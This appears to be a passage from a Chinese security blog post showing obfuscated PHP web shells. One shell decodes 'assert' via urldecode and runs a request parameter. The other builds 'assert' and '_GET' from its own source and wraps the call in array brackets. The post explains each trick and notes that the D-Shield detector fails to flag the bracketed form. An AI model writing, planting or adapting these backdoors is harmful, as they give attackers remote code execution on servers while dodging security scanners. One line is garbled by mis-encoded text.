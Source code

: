 ```
<?php 
class T{
	public $t;
	function test(){
	$this->t=@$_REQUEST['mr6'];
	$k = urldecode('%61%73%73%65%72%74');
	return $k;
	}
}
$test=new T();
$a=$test->test();
@$a($test->t);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900431058-6815cafb-c3d0-4436-985b-f3a6d666eead.png)

### 数组包裹

这是星球嘉宾九世写的一个shell，我在星球里也发过他的解析。

```
<?php
function demo($name,$value){
    [$name ($value)];
}
$v=$_GET['a'];
$file=file_get_contents(__FILE__);
preg_match("/assert/",$file,$mc);
preg_match("/GET/",$file,$cs);
$cx='_'.$cs[0];
demo($mc[0],${$cx}['a'])
?>
```

原型就是`assert($_GET['a']);`

demo函数是主要的执行函数

这里的$name就是要传入的assert

valueæ¯`_GET['a']`

其他的代码都是用来混淆这两个参数的

首先$file获取自身文件的内容

```
preg_match("/assert/",$file,$mc);//把匹配到的assert字符串放到$mc数组里,其中第0号元素就是字符串“assert”
preg_match("/GET/",$file,$cs); //同理,放到了$cs[0]中
$cx='_'.$cs[0];//拼接成_GET
```

然后调用demo函数传入参数执行。

发现D盾对于外部`$a($b)`这种格式比较敏感，但是对于`[$a($b)]`这种就不能识别了。
